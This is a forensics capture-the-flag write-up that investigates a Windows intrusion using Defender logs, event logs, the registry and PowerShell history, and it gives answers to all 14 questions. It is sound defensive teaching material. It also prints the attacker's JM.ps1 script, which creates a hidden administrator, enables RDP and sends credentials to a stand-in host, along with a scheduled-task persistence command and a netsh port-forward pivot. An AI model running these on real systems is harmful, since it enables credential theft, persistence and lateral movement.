# The Enduring Echo

## Scenario

> *LeStrade passes a disk image artifacts to Watson. It's one of the identified breach points, now showing abnormal CPU activity and anomalies in process logs.*

Challenge files [here](https://www.dropbox.com/scl/fi/gld770ukvuleirypri9mf/The_Enduring_Echo.zip?rlkey=632x2sywem8whjprq2nhehe10&st=kewflnk2&dl=0).

## Questions
To solve this challenge, I’ll need to answer the following 14 questions:


1. What was the first (non cd) command executed by the attacker on the host? *(string)*
2. Which parent process (full path) spawned the attacker’s commands? *(C:\FOLDER\PATH\FILE.ext)*
3. Which remote-execution tool was most likely used for the attack? *(filename.ext)*
4. What was the attacker’s IP address? *(IPv4 address)*
5. What is the first element in the attacker's sequence of persistence mechanisms? *(string)*
6. Identify the script executed by the persistence mechanism. *(C:\FOLDER\PATH\FILE.ext)*
7. What local account did the attacker create? *(string)*
8. What domain name did the attacker use for credential exfiltration? *(domain)*
9. What password did the attacker's script generate for the newly created user? *(string)*
10. What was the IP address of the internal system the attacker pivoted to? *(IPv4 address)*
11. Which TCP port on the victim was forwarded to enable the pivot? *(port 0-65565)*
12. What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings? *(HKLM\\...\\...)*
13. What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system? *(Txxxx\.xxx)*
14. Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this? *(command)*


## Artifacts

The scenario files give us significant disk artifacts that will be analysed to answer the above questions:
* Window Event Logs `C:\Windows\System32\winevt\logs\`
* Window Defender Logs `C:\ProgramData\Microsoft\Windows Defender\Support\`
* User Journal \$J `C:\$Extend\$J`
* Master File Table \$MFT `C:\$MFT`
* Windows Registry hive files `C:\Windows\System32\config\`
* Amchache hive `C:\Windows\AppCompat\Programs\Amcache.hve`

> *Window Event Logs plays the biggest role here*

## Tools

In this challenge I will be using various tools to investigate including [Eric-Zimmerman Tools](https://ericzimmerman.github.io/#!index.md), notably Registry Explorer, Timeline Explorer for this challenge. Besides that, you also need an .evtx viewer like EventLook but the default Event Viewer of window would do fine.

I am also using RegRipper4.0 to easily parse registry without browsing through the whole registry.

::github{repo="keydet89/RegRipper4.0"}

## Investigation

### Question 1
> What was the first (non cd) command executed by the attacker on the host? (string)

A glance at **Question 15** tells us that the event logs have the command line detail, filtering for event id **4688** in *Security.evtx* will give us all process's command line arguments.



That's 2137 events and we don't know when the attacker first moves is. Luckily Window Defender Logs also records potentially malicious commands. Lines with ***"Engine:command line reported as lowfi:"*** in the log will reveal sus commands.


```log {4, 8} wrap=false startLineNumber=5463 title="MPLog-20250421-104305.log" 
2025-08-24T22:49:14.898 [ESU] ESU heartbeat: ESU disabled (explicit EnableEmergencySigs config)
2025-08-24T22:49:48.429 [RTP] [Mini-filter] OpenWithoutRead notification (2242, 10009, \Device\HarddiskVolume2\Windows\System32\svchost.exe) sent successfully.
Internal signature match:subtype=Lowfi, sigseq=0x0001CBD78CB6CDD5, sigsha=42fd2331d60fbfa863259d427ac5eea278f155fb, cached=false, source=0, resourceid=0xc104a2ee
2025-08-24T22:50:58.804 Engine:command line reported as lowfi: C:\Windows\System32\cmd.exe(cmd.exe /Q /c cd \ 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1)
2025-08-24T22:50:58.820 Using signature default action MP_THREAT_ACTION_ALLOW(6) for special threatID: 0x565c7b9a7ffffffe
2025-08-24T22:50:58.836 UnknownTelemetryScan triggered, type: 2 (1 - Unknown, 2- Lofi), flags: 0 (0 - Regular, 1 - MemScan), 1 resources, RtpIoavOnly: FALSE
Internal signature match:subtype=Lowfi, sigseq=0x0001CBD78CB6CDD5, sigsha=42fd2331d60fbfa863259d427ac5eea278f155fb, cached=false, source=0, resourceid=0x9c851786
2025-08-24T22:50:58.914 Engine:command line reported as lowfi: C:\Windows\System32\cmd.exe(cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1)
2025-08-24T22:50:58.914 Using signature default action MP_THREAT_ACTION_ALLOW(6) for special threatID: 0x565c7b9a7ffffffe
2025-08-24T22:50:59.195 Using signature default action MP_THREAT_ACTION_ALLOW(6) for special threatID: 0x565c7b9a7ffffffe
2025-08-24T22:50:59.195 Using signature default action MP_THREAT_ACTION_ALLOW(6) for special threatID: 0x565c7b9a7ffffffe
```

Having seen the attacker's command pattern, we can filtered for events that contains the string ***cmd.exe /Q /c*** in its message and left us with only 46 events.



And since both of the cd commands in the Defender Logs are both at August 24^th^, we find are the events which answers **Quesion 1**.




**Answer:** systeminfo

More about Microsoft Defender Logs could be found at https://www.thedfirspot.com/post/windows-defender-mp-logs-a-story-of-artifacts.

### Question 2

> Which parent process (full path) spawned the attacker’s commands? (C:\FOLDER\PATH\FILE.ext)

The above event have this information.

**Answer:** C:\Windows\System32\wbem\WmiPrvSE.exe

### Question 3
> Which remote-execution tool was most likely used for the attack? (filename.ext)

If you like me who have no idea what tool is this, it's best to ask experts.


**Answer:** wmiexec\.py

### Question 4
> What was the attacker’s IP address? (IPv4 address)

Since the attack used a remote-execution tool, he would have left some *Window Logon Type 3* events, more about that event [here](https://www.manageengine.com/products/active-directory-audit/kb/what-is/logon-type-3.html). For Window logon events. filter for event id **4624** and looks for `LogonType` of 3.



**Answer:** 10.129.242.110

::tip
You can use this tool to speed up your logs analysis.
::

::github{repo="WithSecureLabs/chainsaw"}

### Question 5
>  What is the first element in the attacker's sequence of persistence mechanisms? (string)

Diving furthur into Defender Logs we will encounter this line.
```log startLineNumber=6283 title="MPLog-20250421-104305.log" 
2025-08-24T23:03:50.257 Engine:command line reported as lowfi: C:\Windows\System32\cmd.exe(cmd.exe /Q /c schtasks /create /tn SysHelper Update /tr powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1 /sc minute /mo 2 /ru SYSTEM /f 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1)
```

The attacker created a schduled task to maintain persistence named **SysHelper Update** which will execute `JM.ps1` every 2 minutes.

**Answer:** SysHelper Update

### Question 6
> Identify the script executed by the persistence mechanism. (C:\FOLDER\PATH\FILE.ext)

Yes.

**Answer:** C:\Users\Werni\Appdata\Local\JM.ps1

### Question 7
> What local account did the attacker create? (string)

content of `JM.ps1`:

```ps1
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
 
```

The script adds a local account with a random name within `$usernames` with a time-based password `Watson_$timestamp`

Filter for event ID **4720** around the same time as the **Question 5**'s command, we will find the following event.

```xml
<?xml version="1.0" encoding="utf-16"?>
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4720</EventID>
    <Version>0</Version>
    <Level>0</Level>
    <Task>13824</Task>
    <Opcode>0</Opcode>
    <Keywords>0x8020000000000000</Keywords>
    <TimeCreated SystemTime="2025-08-24T23:05:09.7646587Z" />
    <EventRecordID>4461</EventRecordID>
    <Correlation ActivityID="{9f5b5735-1548-0001-a457-5b9f4815dc01}" />
    <Execution ProcessID="688" ThreadID="5796" />
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
    <Security />
  </System>
  <EventData>
    <Data Name="TargetUserName">svc_netupd</Data>
    <Data Name="TargetDomainName">HEISEN-9-WS-6</Data>
    <Data Name="TargetSid">S-1-5-21-3871582759-1638593395-315824688-1003</Data>
    <Data Name="SubjectUserSid">S-1-5-18</Data>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="SubjectDomainName">WORKGROUP</Data>
    <Data Name="SubjectLogonId">0x3e7</Data>
    <Data Name="PrivilegeList">-</Data>
    <Data Name="SamAccountName">svc_netupd</Data>
    <Data Name="DisplayName">%%1793</Data>
    <Data Name="UserPrincipalName">-</Data>
    <Data Name="HomeDirectory">%%1793</Data>
    <Data Name="HomePath">%%1793</Data>
    <Data Name="ScriptPath">%%1793</Data>
    <Data Name="ProfilePath">%%1793</Data>
    <Data Name="UserWorkstations">%%1793</Data>
    <Data Name="PasswordLastSet">%%1794</Data>
    <Data Name="AccountExpires">%%1794</Data>
    <Data Name="PrimaryGroupId">513</Data>
    <Data Name="AllowedToDelegateTo">-</Data>
    <Data Name="OldUacValue">0x0</Data>
    <Data Name="NewUacValue">0x15</Data>
    <Data Name="UserAccountControl">
      
		%%2080
		%%2082
		%%2084
    </Data>
    <Data Name="UserParameters">%%1793</Data>
    <Data Name="SidHistory">-</Data>
    <Data Name="LogonHours">%%1797</Data>
  </EventData>
</Event>

```

**Answer:** svc_netupd
### Question 8

> What domain name did the attacker use for credential exfiltration? (domain)

Based on `JM.ps1`, the script exfiltrates to 
```
http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))
```

**Answer:** NapoleonsBlackPearl.htb
### Question 9
>  What password did the attacker's script generate for the newly created user? (string)

We know that it is `Watson_$timestamp`, based on the above event we know user `svc_netupd` was added on `2025-08-24T23:05:09.7646587Z`, so the answer is `Watson_20250824230509` right? Well not really because the event logs time is based on the system timezone and `$timestamp` value is in UTC.

To know what timezone is the system in, we need to inspect `HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` registry value, which is at `C:\Windows\System32\config\SYSTEM`. You can open that registry with *Registry Explorer* and browse for that key, or alternatively you can use *RegRipper*:



The system's timezone is UTC +7.

**Answer:** Watson_20250824160509

### Question 10
> What was the IP address of the internal system the attacker pivoted to? (IPv4 address)

Keep bowsing **4688** events around `2025-08-24T23:05:09.7646587Z` will lead you to this event. 



The attacker ran
```bash
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=192.168.1.101 connectport=22
```

**Answer:** 192.168.1.101

### Question 11
> Which TCP port on the victim was forwarded to enable the pivot? (port 0-65565)


**Answer:** 9999

Based on the above netsh command.
### Question 12
> What is the full registry path that stores persistent IPv4->IPv4 TCP listener-to-target mappings? (HKLM\\...\\...)

The question asked for a registry path for IPv4 mappings. If you dont familiar with Window Registry, it is a big, structured database where Windows and apps store settings. In this question it is asking specifically about `HKEY_LOCAL_MACHINE` hive (or `HKLM`) which storesmachine-wide settings (hardware, drivers, services). 

:::note[HKEY_LOCAL_MACHINE]
`HKLM` hive is devided into 3 on-disk file called SAM, SOFTWARE and SYSTEM and all can be found at `C:\Windows\Systemn32\config\`:
* SAM: `HKLM\SAM\...` - stores local user/group info and password hashes. 
* SYSTEM: `HKLM\SYSTEM\...` - system configuration (services, timezone, boot/LSA data used to decrypt SAM, etc.). 
* SOFTWAR: `HKLM\SOFTWARE\...` - installed software and OS configuration.
:::



You can browse to that key with Regitry Explorer to see the value:



**Answer:** HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp
### Question 13
>  What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system? (Txxxx\.xxx) 

:::note[MITRE ATT&CK ID?]
MITRE ATT&CK is a public, continually updated knowledge base of how real attackers operate so defenders can detect, stop, and talk about attacks in a common language. It’s organized into tactics and techniques, each with their on ID. Some common IDs

* **T1566 - Phishing** is a technique in ***Initial Access*** tactic.
* **T1055 - Process Injection** is in ***Privilege Escalation*** tactic.
* **T1041 - Exfiltration Over C2 Channel** is a technique of ***Exfiltration***.

For the whole framwork, visit the offical website at https://attack.mitre.org
:::

Based on the case, it is implies that internal-proxy setup is of ***Command and Control*** tactic and after browwsing the framework we can find this technique's page:




Alternatively you can do a quick google search like so:



**Answer:** T1090.001

Visit https://attack.mitre.org for the whole framework.
### Question 14

> Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this? (command)

For powershell history of Administrator, we view this file:

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash {37} wrap=false title="ConsoleHost_history.txt"
ipconfig
powershell New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 172.18.6.3 -PrefixLength 24
ipconfig.exe
powershell New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 10.129.233.246 -PrefixLength 24
ipconfig
ncpa.cpl
ipconfig
ping 1.1.1.1
cd C:\Users\
ls
net user Werni Quantum1! /add
ls
net localgroup administrator Werni /add
net localgroup Administrators Werni /add
clear
wmic computersystem where name="%COMPUTERNAME%" call rename name="Heisen-9-WS-6"
ls
cd ..
ls
cd .\Users\
ls
net users
Rename-Conputer -NewName "Heisen-9-WS-6" -Force
Rename-Computer -NewName "Heisen-9-WS-6" -Force
net users
ls
net user felamos /delete
cd ..
ls
net users
cat .\Werni\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
Enable-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)"
Enable-NetFirewallRule -DisplayGroup "Remote Event Log Management"
Enable-NetFirewallRule -DisplayGroup "Remote Service Management"
auditpol /set /subcategory:"Process Creation" /success:enable
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select-Object AMRunningMode, RealTimeProtectionEnabled

```

**Answer:** reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f


## Answers

1. `systeminfo`
2. `C:\Windows\System32\wbem\WmiPrvSE.exe`
3. `wmiexec.py`
4. `10.129.242.110`
5. `SysHelper Update`
6. `C:\Users\Werni\Appdata\Local\JM.ps1`
7. `svc_netupd`
8. `NapoleonsBlackPearl.htb`
9. `Watson_20250824160509`
10. `192.168.1.101`
11. `9999`
12. `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp`
13. `T1090.001`
14. `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f`

## Epilogue

Hope you learn something from this write up. Writing this takes a lot of time, but there are still four more challenges in this CTF—stay tuned! If I’ve made any mistakes, please feel free to contact me.